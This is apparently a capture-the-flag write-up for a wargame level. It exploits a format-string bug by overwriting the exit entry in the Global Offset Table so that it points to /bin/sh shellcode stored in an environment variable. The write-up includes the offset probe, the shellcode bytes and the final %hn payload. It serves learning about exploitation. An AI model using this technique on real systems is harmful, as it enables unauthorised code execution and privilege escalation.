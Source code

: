 # Level 5

## the code

the program reads 100 chars on stdin and stores them in a size 100 buffer.
Upercases are then converted to lowercases and the result printed with
an unsecure printf(s). A call to exit follows.

## idee:

replace exit by our shellcode in the Global Offset Table. We have to be carefull not having values between 64 and 90 in our injection code. We can't then put directly our shellcode in the string. We will therefore put it
in a env variable and make the GOT address points to it.

### printf args offset

```sh
$ python -c 'print "AAAA" + ".%08x" * 12' | ./level05
aaaa.00000064.f7fcfac0.f7ec3add.ffffd69f.ffffd69e.00000000.ffffffff.ffffd724.f7fdb000.61616161.3830252e.30252e78
```

'a' is 0x61 and the offset is 10.

### exit GOT address

```sh
$ objdump -R ./level05

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```

exit address stored at 08 04 97 e0 (no values between 64 (\x41) and 90 (\x5a))
cut in two addresses: 080497e0 and 080497e2

### shellcode in an env variable

```sh
$ cd /tmp
$ vim gev.c
$ gcc -m32 gev.c
$ export OPLA=`python -c 'print("\x90" * 50 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
$ ./a.out
OPLA will be near 0xffffdecf
```

to reach the middle of the slope we add 24

| format |  low  |   high |
| :----: | :---: | -----: |
|  hex   | decf  |   ffff |
|  dec   | 57039 |  65535 |
| slope  | + 24  |     -- |
|  dec   | 57063 |  65535 |
| offset |  -8   | -57063 |
| magic  | 57055 |   8472 |

## the hack
```sh
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57055x%10$hn" + "%8472x%11$hn")' ; cat) | ./level05
```
